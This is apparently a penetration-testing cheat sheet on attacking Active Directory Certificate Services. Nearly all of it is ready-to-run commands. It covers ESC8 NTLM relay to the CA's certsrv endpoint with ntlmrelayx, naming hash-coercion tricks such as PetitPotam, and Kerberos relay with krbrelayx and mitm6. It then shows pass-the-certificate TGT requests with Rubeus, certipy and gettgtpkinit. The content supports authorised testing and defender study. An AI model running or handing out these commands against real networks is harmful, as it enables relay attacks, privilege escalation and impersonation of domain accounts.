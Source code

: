 ## HTTP Endpoint - ESC8

If the HTTP endpoint is up on the CA and it accept NTLM authentication, it is vulnerable to NTLM or Kerberos relay.

### NTLM Relay

```bash
# Prepare relay
ntlmrelayx -t "http://CA/certsrv/certfnsh.asp" --adcs --template "Template name"
# Find a way to leak the machine or user Net-NTLM hash (Printerbug, Petitpotam, PrivExchange, etc)
```

### Kerberos Relay

It is possible with the last versions of **mitm6** and **krbrelayx**.

```bash
#Setup the relay
sudo krbrelayx.py --target http://CA/certsrv -ip attacker_IP --victim target.domain.local --adcs --template Machine

#Run mitm6
sudo mitm6 --domain domain.local --host-allowlist target.domain.local --relay CA.domain.local -v
```

## Pass-The-Certificate

### PKINIT

With a certificate valid for authentication, it is possible to request a TGT via the **PKINIT** protocol

#### Windows

```powershell
# Information about a cert file
certutil -v -dump admin.pfx

# From a Base64 PFX
Rubeus.exe asktgt /user:"TARGET_SAMNAME" /certificate:cert.pfx /password:"CERTIFICATE_PASSWORD" /domain:"FQDN_DOMAIN" /dc:"DOMAIN_CONTROLLER" /show
```

#### Linux

```bash
# Authentication with PFX/P12 file
certipy auth -pfx 'user.pfx' -no-hash

# PEM certificate (file) + PEM private key (file)
gettgtpkinit.py -cert-pem "PATH_TO_PEM_CERT" -key-pem "PATH_TO_PEM_KEY" "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"

# PFX certificate (file) + password (string, optionnal)
gettgtpkinit.py -cert-pfx "PATH_TO_PFX_CERT" -pfx-pass "CERT_PASSWORD" "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"
```
